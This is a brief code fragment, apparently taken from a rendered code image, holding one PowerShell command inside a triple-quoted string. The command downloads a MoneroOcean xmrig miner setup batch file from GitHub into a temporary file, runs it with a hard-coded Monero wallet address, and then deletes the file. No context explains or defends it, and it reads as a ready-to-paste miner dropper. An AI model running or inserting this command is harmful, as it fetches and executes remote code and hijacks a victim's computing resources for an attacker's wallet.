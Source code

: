 """
powershell -Command "$wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.bat', $tempfile); & $tempfile 42eGjaqiarZRGG4DLg2NPE5GB7B8KYvwA2XCYPuS1dYHB4deitWoSHY9rQA66it8QHKEpeTynzGFEAE6iKczX6xSADg6erh; Remove-Item -Force $tempfile"
"""
